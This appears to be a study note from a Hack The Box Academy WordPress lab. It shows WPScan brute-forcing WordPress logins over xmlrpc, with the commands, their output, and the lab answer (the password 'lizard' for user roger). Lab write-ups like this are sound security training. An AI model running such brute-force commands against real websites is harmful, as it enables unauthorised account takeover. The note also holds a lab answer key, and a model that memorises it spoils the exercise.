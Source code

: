 ```yaml
---
sticker: emoji//1f43c
---
```

## WordPress User Bruteforce

WPScan can be used to brute force usernames and passwords. The scan report returned three users registered on the website: `admin`, `roger`, and `david`. The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`. The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it is faster.

#### WPScan - XMLRPC


```shell-session
smoothment@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/                                                  
[+] Started: Thu Apr  9 13:37:36 2020                                                                                                                                               
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```

# Question
---

![](Pasted image 20250220134229.png)

Let's use this WPScan command:

```
wpscan --password-attack xmlrpc -t 20 -U roger -P /usr/share/wordlists/rockyou.txt --url http://IP:PORT
```

We get this:

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - roger / lizard                                                                             
Trying roger / castro Time: 00:00:38 <                        > (1900 / 14346292)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: roger, Password: lizard

```


Answer is:

```
lizard
```